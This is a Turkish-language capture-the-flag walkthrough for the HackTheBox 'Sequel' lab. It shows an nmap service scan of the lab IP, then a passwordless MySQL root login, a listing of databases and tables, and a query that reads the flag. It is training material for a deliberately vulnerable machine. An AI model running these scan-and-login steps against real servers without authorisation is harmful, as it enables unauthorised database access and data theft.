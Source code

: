 # Sequel

!!! info "Target IP Address"

    10.129.95.232

Hedef makine için Nmap taraması gerçekleştir:

```bash
sudo nmap 10.129.95.232 -sV -sC
```

```text title="Output" hl_lines="6"
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-21 23:30 +03
Nmap scan report for 10.129.95.232
Host is up (0.34s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
| mysql-info:
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 68
|   Capabilities flags: 63486
|   Some Capabilities: ConnectWithDatabase, ODBCClient, LongColumnFlag, IgnoreSpaceBeforeParenthesis, IgnoreSigpipes, InteractiveClient, Speaks41ProtocolOld, SupportsTransactions, FoundRows, Speaks41ProtocolNew, SupportsCompression, Support41Auth, DontAllowDatabaseTableColumn, SupportsLoadDataLocal, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|_  Auth Plugin Name: mysql_native_password

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 216.00 seconds
```

MySQL ile hedefe `root` kullanıcısı olarak giriş yap (kullanıcı `root` olduğunda parola istenmez):

```bash
mysql -h 10.129.95.232 -u root
```

Mevcut veri tabanlarını görüntülemek için aşağıdaki komutu çalıştır:

```text
show databases;
```

Öncelikle `htb` isimli veri tabanını seç:

```text
use htb;
```

Mevcut tabloları görüntülemek için aşağıdaki komutu gir:

```text
show tables;
```

```text title="Output"
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.142 sec)
```

Aşağıdaki komut ile bayrağı ele geçir:

```sql
SELECT * FROM config WHERE name = 'flag';
```
